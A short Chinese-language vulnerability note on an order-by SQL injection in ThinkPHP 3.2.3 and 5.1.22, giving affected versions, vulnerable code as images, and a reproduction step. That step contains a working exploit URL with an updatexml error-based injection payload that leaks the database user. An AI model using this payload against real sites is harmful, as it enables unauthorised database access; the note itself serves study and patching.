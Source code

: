 Thinkphp 3.x order by 注入漏洞
==============================

一、漏洞简介
------------

ThinkPHP在处理order
by排序时，当排序参数可控且为关联数组(key-value)时，由于框架未对数组中key值作安全过滤处理，攻击者可利用key构造SQL语句进行注入，该漏洞影响ThinkPHP
3.2.3、5.1.22及以下版本。

二、漏洞影响
------------

ThinkPHP 3.2.3、5.1.22及以下版本。

三、复现过程
------------

ThinkPHP3.2.3漏洞代码（/Library/Think/Db/Driver.class.php）：

![](./.resource/Thinkphp3.xorderby注入漏洞/media/rId24.png)

ThinkPHP 5.1.22漏洞代码（framework/library/think/db/Query.php）：

![](./.resource/Thinkphp3.xorderby注入漏洞/media/rId25.png)

从上面漏洞代码可以看出，当\$field参数为关联数组（key-value）时，key值拼接到返回值中，SQL语句最终绕过了框架安全过滤得以执行。

### ThinkPHP 3.2.3

访问如下URL即可进行漏洞利用：

    http://www.0-sec.org/ThinkPHP/?order[updatexml(1,concat(0x3a,user()),1)]=1

![](./.resource/Thinkphp3.xorderby注入漏洞/media/rId27.png)

参考链接
--------

> <https://mp.weixin.qq.com/s?__biz=MzIwNTcxNTczMQ==&mid=2247483907&idx=1&sn=3c1f9874878c92d10cff30c1c263fa8a&scene=21#wechat_redirect>

